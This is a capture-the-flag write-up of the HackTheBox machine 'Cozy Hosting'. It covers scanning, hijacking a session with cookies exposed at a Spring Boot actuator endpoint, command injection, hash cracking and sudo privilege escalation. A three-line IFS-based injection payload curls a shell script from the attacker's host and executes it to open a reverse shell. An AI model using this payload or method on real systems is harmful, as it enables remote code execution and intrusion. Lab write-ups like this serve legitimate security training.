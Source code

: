 ```yaml
---
title: Cozy Hosting

date: 2023-10-25
categories:
  - HTB
tags:
  - Writeups

---
```


# Introduction
Hey guys 👋!
Today we will be solving an easy HackTheBox machine called **Cozy Hosting**. This machine focuses on session hijacking and command injection. Without wasting any time, let's jump into it.

## Nmap Scan
We will start with the initial Nmap scan to see what ports are open on his machine.

![](https://i.imgur.com/LUT0BWH.png)

There are 2 ports open (22,80). There is also something interesting that the target IP resolves to a domain name i.e., `http://cozyhosting.htb`. Let's add this domain name to our hosts file and see what this website is about.

## Website Enumeration
As soon as we add the hostname to our hosts file, we are able to access the website. This is a hosting website. Let's check the website and see what we can find.
![](https://i.imgur.com/FhM5EQo.png)

Let's poke around and see what we can find. After looking around, we got to know that this website is using bootstrap v5.2.3. After a little more research, we found that the framework this website is using is `springboot framework` 

![](https://i.imgur.com/pIMnCff.png)

There was also a login form which will not easy to bypass. So we will look for some other method to bypass login or something. Other than this information, we did not find anything interesting. So let's fire up gobuster and see what directories this website is hiding from us 😏. Using gobuster, we got some interesting results. The only result that I was interested in was the `/actuator/sessions` directory. Let's navigate to this directory and see what we can find.

![](https://i.imgur.com/W4gNY7z.png)

When we navigated to the directory, we found what we were looking for, session cookies for a user account 😃. 

![](https://i.imgur.com/NaQ7k33.png)

Let's use these cookies and see if we can hijack user session and log into the website.

## Session Hijacking
As we expected, using the `kanderson` cookie, we were able to bypass the login and hijack the user session to log into the website. 

![](https://i.imgur.com/itR3CYA.png)

After logging in, the dashboard seems useless because there are no clickable links or redirection, Until we scroll down. When we scroll down, we see something very interesting. two fields asking for `hostname` and `username`. These fields look like some type of command execution parameters. 

![](https://i.imgur.com/f4AyiZe.png)

Lets fire up the burpsuite and see what these fields are doing.

## Command Injection and Reverse Shell
By testing the request in burpsuite, we saw in the URL that the website trying to run ssh command to execute. It was confirmed there is command injection. after some more testing, the command injection was in the second field i.e., `username`. Now it looked pretty easy to get a reverse shell, but it wasn't. White spaces were not allowed in the payload command. To avoid the white spaces and get a reverse shell, we used the following payload.
Create a reverse shell and spin up the web server to deliver the shell.

```bash
IFS=_;command=curl_http://10.10.16.79/shell.sh_--output_/tmp/shell.sh;$(command)
IFS=_;command=chmod_+x_/tmp/shell.sh;$(command)
IFS=_;command=/tmp/shell.sh;$(command)
```

Above payload gave us initial foothold. 

![](https://i.imgur.com/YxlDUuY.png)

Now, let's stabilize this reverse shell and download the file we are seeing in the target machine.

![](https://i.imgur.com/zNAGhog.png)

As we have stabilized our shell, let's download the jar file and see what it is. After downloading and looking closely into the file, we came to know that this is the website's source code file. And in this file, we found credentials that seems like `postgresSQL` login credentials. Let's use these credentials and see if it works.
```credentials
postgres:************
```

The above credentials did gave us access to the database. After logging into the postgres, there was a database named `cozyhosting`. After looking into the database, we got some users with their password hashes.

![](https://i.imgur.com/XQ2cc4W.png)

Let's grab these hashes and see what we can do with the cracked hashes. With the hashes, there was a home directory for the user named `josh`. This might be the actual user on this box. Let's pass these hashes to hashcat and see what we can get. After the hascat is done, we are left with the followings;

```
admin:<cracked_password>
josh:<cracked_password>
```

Lets try to ssh into the machine and see if we can get any connection. The admin user didn't work but the josh user worked and we have the user level access on the machine 😃.
Lets get the user flag first and move to the next step.

![](https://i.imgur.com/JU2BRLS.png)

## Privilege Escalation
Now we are heading to our last stage of this machine i.e., privilege escalation. To escalate our privileges,we need to find an attack vector. To do this, first we will loo for any type of binary or script of that we have permission to run as root or any cronjobs that are running ass root user privileges. Type `sudo -l` and in most cases, it gives us some pretty valuable information we are looking.

![](https://i.imgur.com/B5tydoO.png)

As we can see, we do have permissions to run something with root privileges. Let's head over to [GTFObins](https://gtfobins.github.io) and see how we can use ssh to spawn a root shell. GTFObins gave us a payload that will spawn us a root shell. Lets use it and get the root flag.

![](https://i.imgur.com/qviAnso.png)

And this machine is rooted. It was a great journey so far. I hope you guys enjoyed it and learned something new. If you think there is some space for improvement or I explained something wring, feel free to ping me 😉. Until then, Good Bye!

